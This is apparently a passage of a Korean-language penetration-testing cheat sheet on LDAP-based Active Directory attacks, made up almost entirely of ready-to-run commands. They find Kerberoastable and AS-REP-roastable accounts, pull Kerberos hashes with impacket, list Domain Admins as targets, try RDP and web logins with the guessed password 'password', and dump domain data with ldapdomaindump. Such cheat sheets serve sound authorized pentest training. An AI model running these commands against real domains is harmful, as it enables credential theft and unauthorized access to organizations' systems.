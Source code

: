 ### 🔐 Kerberos와 연계 (88 포트)

```bash
# LDAP에서 SPN 계정 확인 (Kerberoasting 대상)
ldapsearch -x -h {IP} -b "$DC_STRING" "(&(objectClass=user)(servicePrincipalName=*))" sAMAccountName servicePrincipalName

# ASREPRoasting 대상 확인 (사전 인증 불필요 계정)
ldapsearch -x -h {IP} -b "$DC_STRING" "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" sAMAccountName

# impacket으로 Kerberoasting
impacket-GetUserSPNs {DOMAIN}/{USERNAME}:{PASSWORD} -dc-ip {IP}

# impacket으로 ASREPRoasting
impacket-GetNPUsers {DOMAIN}/ -usersfile ldap_users.txt -dc-ip {IP}
```

### 🖥️ RDP와 연계 (3389 포트)

```bash
# LDAP 사용자로 RDP 접근 시도
rdesktop {IP} -u {LDAP_USER} -p password
xfreerdp /u:{LDAP_USER} /p:{PASSWORD} /v:{IP}

# 관리자 그룹 멤버로 RDP 시도
ldapsearch -x -h {IP} -b "$DC_STRING" "(memberOf=CN=Domain Admins,CN=Users,$DC_STRING)" sAMAccountName | grep sAMAccountName | cut -d: -f2 > admin_users.txt
```

### 🌐 웹 서비스와 연계

```bash
# LDAP 인증을 사용하는 웹 애플리케이션 공격
# 수집한 사용자 계정으로 웹 로그인 시도
curl -X POST -d "username={LDAP_USER}&password=password" http://{IP}/login

# AD 인증 웹 애플리케이션
curl -X POST -d "username={DOMAIN}\\{LDAP_USER}&password=password" http://{IP}/login
```

---

## 🛠️ 고급 LDAP 공격 기법

### 📋 ldapdomaindump 활용

```bash
# ldapdomaindump 설치
pip3 install ldapdomaindump

# 익명 접근으로 도메인 정보 덤프
ldapdomaindump -n {IP}

# 인증된 접근으로 상세 정보 덤프
ldapdomaindump -u '{DOMAIN}\\{USERNAME}' -p {PASSWORD} {IP}

# 출력 형식 지정
ldapdomaindump -u '{DOMAIN}\\{USERNAME}' -p {PASSWORD} {IP} -o /tmp/ldapdump/
```
